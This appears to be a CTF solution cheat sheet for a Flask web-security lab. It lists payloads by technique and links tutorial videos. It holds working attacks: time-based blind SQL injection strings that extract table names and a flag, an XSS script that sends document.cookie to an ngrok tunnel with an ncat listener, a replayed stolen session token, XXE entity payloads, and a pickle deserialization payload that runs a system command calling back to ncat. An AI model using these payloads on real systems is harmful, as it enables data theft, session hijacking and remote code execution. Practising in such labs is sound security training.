Flask
SQL
----------
' or 1=1; -- 

SQL Timing Based
--------------
https://www.youtube.com/watch?v=DYLDG_2Vs3E
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
"' or ((SELECT hex(substr(table_name,{},1)) FROM information_schema.tables limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- ".format(len(known_data)+1, x)
"' or ((SELECT hex(substr(column_name,{},1)) FROM information_schema.columns where table_name = 'supersecrettable' limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "
"user_name": "' or ((SELECT hex(substr(flag,{},1)) FROM supersecrettable limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "

NoSQL Blind injection
---------------------
https://www.youtube.com/watch?v=7kmttmmlygc
https://cloud.mongodb.com/v2/601b09a6a1838475f9393a92#metrics/replicaSet/622b90aef64b734b93ba453d/explorer/CTF/users/find
Refer to script

XSS
---------
https://www.youtube.com/watch?v=bW_IuClLF7U

ncat -klnvp 9000
ngrok http 9000

<script>document.write('<img src="http://019b-2406-3003-2077-4ea9-e183-ea0c-8d0-92a2.ngrok.io?cookie='+btoa(document.cookie)+'" />');</script>
curl -H "Cookie: token=8abae5d8bc89622b6bf5a76c948312f2" http://127.0.0.1:5000/XSS/admin

XSS with Content Security Policy (Low)
---------
<iframe src="http://localhost/CTF/attacker/base.html"></iframe>

XSS with Content-Security-Policy (High)
-----------------
<meta http-equiv="refresh" content="1; url=http://localhost:5000/XSS3/flag">


XXE injection
------------------------
https://www.youtube.com/watch?v=kiGoOuuXWFI

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <food>
    <name>Tonkatsu &example;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></food>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:5000/XXE/flag" >
]>
<foo>
    <name>Tonkatsu &xxe;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></foo>


XML Blind injection
----------------------------
https://www.youtube.com/watch?v=ySJwlMsFbco
Refer to script


Pickle Insecure Deserialization
---------------------------
Refer to script
ncat -klnvp 9000
curl -d "function=decode&input=b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x13ncat 127.0.0.1 9000\x94\x85\x94R\x94.'" http://127.0.0.1:5000/INSEC/





